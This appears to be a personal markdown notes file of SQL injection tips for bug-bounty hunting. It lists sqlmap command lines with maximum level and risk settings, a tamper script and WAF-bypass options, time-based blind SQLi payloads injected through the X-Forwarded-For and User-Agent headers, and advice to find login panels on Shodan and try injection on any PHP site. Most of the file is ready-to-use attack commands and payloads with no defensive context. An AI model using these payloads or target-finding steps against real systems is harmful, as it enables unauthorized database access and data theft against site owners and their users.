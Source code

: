 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc

# Bug : Blind SQL Injection
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

# waf bypass sqlmap

* sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --current-user --hostname

# sql injcetion tip

Application was using php ( whenever I see php , I test sqli first ) 
I tried blind sqli payload in login params  - not worked
sprayed in user-agent - worked✅

User-Agent: "XOR(if(now()=sysdate(),sleep(5),0))XOR"
===> 5.xx seconds delay


# sql injection tip

u can hunt post based param when if the URL has POST /hello/string/testing.php HTTP/1.1
 
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent  -u https://█████████ --data="████████&██████" -p username --dbms=mysql 

* https://infosecwriteups.com/how-i-found-multiple-sql-injections-in-5-minutes-in-bug-bounty-40155964c498
  
